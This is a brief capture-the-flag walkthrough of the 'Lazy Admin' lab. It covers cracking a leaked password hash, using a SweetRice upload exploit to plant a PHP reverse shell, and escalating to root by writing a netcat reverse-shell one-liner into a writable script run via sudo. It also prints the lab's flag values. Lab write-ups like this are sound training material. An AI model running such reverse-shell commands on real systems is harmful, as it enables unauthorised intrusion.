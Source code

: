### Lazy Admin

# export IP=10.10.170.94

## nmap 

## found /content/inc

in that found mysql_backups

multiple queries were included and found a hash passwd:42f749ade7f9e195bf475f37a44cafcb

used my online tool and found the hash to be : Password123

guessing the username to be:manager

found an exploit where i can upload a file in sweetrice and ran it with the username and password and uploaded my reverse-shell-php.phtml

got the reverse shell and found a itguy named user

### got the user flag: THM{63e5bce9271952aad1113b6f1ac28a07} ###

did sudo -l 
and found that i can run :
/usr/bin/perl /home/itguy/backup.pl

i didnt have write permission on backup.pl

bt ultimately backup.pl was running /etc/copy.sh in sh shell
and i can write on /etc/copy.sh

ran the following cmd:

 echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.20.147 4445 >/tmp/f" > /etc/copy.sh

 and ran the cmd that i could have ran as sudo and got a reverse shell with root previlages:

### found the root flag: THM{6637f41d0177b6f37cb20d775124699f} ###